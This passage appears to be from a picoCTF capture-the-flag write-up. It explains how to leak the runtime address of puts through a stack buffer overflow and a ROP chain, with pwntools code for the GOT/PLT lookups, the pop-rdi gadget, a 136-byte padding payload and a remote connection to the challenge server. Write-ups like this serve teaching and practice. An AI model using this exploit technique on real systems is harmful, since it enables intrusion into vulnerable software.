 ```python
got_puts_addr = binary.got["puts"]
```
but we need to print the value stored there to get the address of `puts` during runtime.

We utilize the procedure linkage table (PLT) to call `puts` to print the address stored on the GOT.
```python
plt_puts_addr = binary.plt["puts"]
```

To repeat, we get our GOT address using `binary.got["puts"]` we are looking at the static file `vuln`, it's different during runtime, the dynamic linker will fetch the `puts` address in memory for us and store it at `binary.got["puts"]`, therefore printing whatever's there will give us the address.

Ok! How do we print the address of `puts`? I mentioned that we call `puts` to print it out, but how do we even do that? 

We're creating something called a ROP chain. Consider the stack, it's storing the return address, local variables and stuff. When we do our buffer overflow, we're overflowing our buffer into the stack (stack smashing!), and what we can do is we can overwrite the return address and make the program go wherever we want. Our goal is to make it print `binary.got["puts"]`, there's a lot of steps to that though, we need to load `binary.got["puts"]` into the `rdi` register, and then call `puts`. There's no code on `vuln` that allows us to directly do that. However, there IS code that just pops `rdi` and then returns, we call that an rdi gadget (I think that's the convention). We can find this in `vuln`, either by looking directly at the assembly, or by using pwntools to help us out.

```
pop_rdi_addr = rop.rdi.address
```

This gives us the address of `pop rdi; ret` somewhere in `vuln`. So this'll pop whatever's next on the stack into `rdi`, which means we have to put `binary.got["puts"]` into the stack next. After that, we want to go back to main so that we input stuff again. (Otherwise the program just exits or crashes and we can't do anything)

```python
# can use .symbols to get main function address
main_addr = binary.symbols["main"]

# program will pop got_puts_addr into rdi, then call
# plt_puts_addr, since got_puts_addr is in rdi
# the program will print the location of got_puts_addr
# then we make it go back to main
payload = b"A" * 136 + p64(pop_rdi_addr) + p64(got_puts_addr) + p64(plt_puts_addr) + p64(main_addr)

```

We need the A's in the payload to overflow the buffer, then `p64()` just converts it into pointers.

With this, we send our payload!

```python
# connect
p = remote("mercury.picoctf.net",1774)

# receive text up until we can input stuff
p.recvuntil(b"VeR!\n")

# send payload
p.sendline(payload)
```
